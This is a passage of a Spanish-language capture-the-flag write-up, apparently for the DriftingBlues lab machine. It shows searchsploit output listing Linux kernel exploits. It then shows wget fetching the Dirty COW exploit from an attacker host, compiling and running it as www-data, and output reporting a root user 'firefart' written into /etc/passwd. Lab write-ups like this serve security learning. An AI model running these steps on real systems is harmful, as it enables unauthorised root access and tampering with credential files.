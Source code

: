 ```bash
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation        | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                                  | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation            | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                        | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                 | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                     | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                           | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                   | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege E | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation ( | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Pr | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                                  | linux/dos/44301.c
```
Vamos a utilizar el exploit [`Dirty COW`](https://www.exploit-db.com/exploits/40839). 

Lo compartimos con la máquina víctima y lo ejecutamos.

```bash
www-data@driftingblues:/tmp$ wget 10.11.12.10/dirty.c
www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: 7fa15116c000
id

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
